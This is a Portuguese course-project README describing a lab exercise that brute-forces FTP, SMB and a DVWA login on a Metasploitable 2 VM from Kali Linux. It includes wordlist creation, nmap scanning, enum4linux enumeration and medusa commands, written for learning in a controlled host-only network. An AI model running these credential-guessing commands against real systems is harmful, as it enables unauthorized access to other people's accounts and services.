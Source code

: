 # Curso_Segurança
Projeto de Segurança: Ataques de Força Bruta com Kali Linux e Medusa
## Introdução
Este projeto foi desenvolvido como parte do curso da DIO, com o objetivo de explorar técnicas de ataques de força bruta em ambientes controlados, 
utilizando Kali Linux, Medusa e Metasploitable 2. O foco é aprender sobre segurança ofensiva e práticas de mitigação.

## Configuração do Ambiente
Ferramentas Utilizadas:
  VirtualBox 7.0
  Kali Linux 2025.1
  Metasploitable 2
Rede: Configurada como Host-Only (`192.168.56.0/24`).
  1. Instalação do VirtualBox e criação da rede host-only.
  2. Configuração das VMs Kali Linux e Metasploitable 2.
  3. Verificação de conectividade com `ping`.
############################################################################################################
Feito as configuração do ambiente vamos  começar:

1) Vamos criar words list para senhas e usuários na mão para fim de testes, mas no mundo real devemos usar words lista mais robustas que podemos encontar facilemnte na internet.
echo -e "admin\nadministrador\nuser\nmsfadmin\nguest" > users.txt
echo -e "password\nadmin\n123456\n12345678\nwelcome\nwelcome123\nmsfadmin\nqwerty123" > passwords.txt
** Observação coloca n para quebra linha vamos usar essas worlds lists para todos os testes
** Para ver as words lists criadas #lees users.txt e less passwords.txt 
 
2) Usar Nmap para listar portar abertas e versões dos sistemas
nmap -sV -p 21,22,139,443,445,80,8080 192.168.56.101
** O nmap tem vários parâmetros para ser explorados como rage de portas, IPs etc. 

## Ataques Realizados
Servidor FTP
medusa -h 192.168.56.101 -U users.txt -P passwords.txt -M ftp -t 6

Servidor SMB
enum4linux -U 192.168.56.101 > users.txt ** Este comando enumera os usuários SMB pode ser usado para criar word list
medusa -h 192.168.56.101 -U users.txt -p password -M smbnt

DVWA
medusa -h 192.168.56.101 -u admin -P passwords.txt -M http -m DIR:/dvwa -m FORM:login.php -m FORM-DATA:"post?username=^USER^&password=^PASS^&Login=Login"
** Devemos ver o funcionamento de cada formulário HTML para ajustar o ataque com a medusa, tem o print para melhor compreensão. 


    
